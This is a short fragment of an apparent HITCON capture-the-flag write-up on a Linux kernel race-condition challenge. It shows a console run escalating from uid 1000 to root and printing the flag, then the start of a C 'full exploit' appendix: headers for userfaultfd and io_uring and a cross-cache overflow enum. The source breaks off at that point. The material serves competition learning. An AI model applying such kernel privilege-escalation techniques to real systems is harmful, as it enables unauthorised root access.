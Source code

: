 ```
uid: 1000
uid: 1000
uid: 1000
uid: 1000
uid: 1000
/home/note # id
uid=0(root) gid=0 groups=1000
/home/note # cat /root/flag
hitcon{R4c3_Bl0ck_Bl0ck_Bl0ck_70_r00t}
```
---

## Appendix: full exploit

```c 
#define _GNU_SOURCE
#include <assert.h>
#include <fcntl.h>
#include <errno.h>
#include <inttypes.h>
#include <limits.h>
#include <pthread.h>
#include <signal.h>
#include <stdbool.h>
#include <stddef.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <poll.h>
#include <stdnoreturn.h>
#include <string.h>
#include <unistd.h>

#include <linux/userfaultfd.h>

#include <sys/ioctl.h>
#include <sys/ipc.h>
#include <sys/mman.h>
#include <sys/msg.h>
#include <sys/stat.h>
#include <sys/syscall.h>
#include <sys/timerfd.h>
#include <sys/wait.h>
#include <sys/types.h>
#include <sys/resource.h>
#include <linux/capability.h>
#include <sys/xattr.h>

/* musl is stupid btw */
#undef NGROUPS_MAX
#undef _IOC
#undef _IO
#undef _IOR
#undef _IOW
#undef _IOWR

#include <linux/io_uring.h>

#define CC_OVERFLOW_FACTOR 8
enum {
    CC_RESERVE_PARTIAL_LIST = 0,
    CC_ALLOC_VICTIM_PAGE,
    CC_FILL_VICTIM_PAGE,
```